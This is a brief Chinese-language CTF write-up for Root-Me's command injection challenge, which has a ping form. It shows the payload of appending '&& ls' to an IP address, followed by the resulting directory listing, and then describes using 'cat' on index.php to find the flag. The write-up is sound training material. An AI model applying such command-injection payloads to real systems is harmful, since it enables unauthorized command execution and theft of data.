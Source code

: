 Root-Me [Command injection](https://www.root-me.org/en/Challenges/Web-Server/Command-injection)
===

該題提供一個 `Ping` 的功能。

![](img/01.png)  

## 解題關鍵 
1. |
2. ||
3. &&

## 解題方法
首先嘗試在輸入的 IP 後方加上 `&&`，隨後再補上一個 Linux 指令 `ls`，可以發現 `index.php` 檔案。

```
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.037 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.036 ms
64 bytes from 127.0.0.1: icmp_seq=3 ttl=64 time=0.032 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 1998ms
rtt min/avg/max/mdev = 0.032/0.035/0.037/0.002 ms
index.php
```

隨後透過 `cat` 來印出檔案內容，並在原始碼中發現 Flag。

![](img/02.png)

## 授權聲明
[![copyright © 2019 By MksYi](https://img.shields.io/badge/copyright%20©-%202019%20By%20MksYi-blue.svg)](https://mks.tw/)
[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
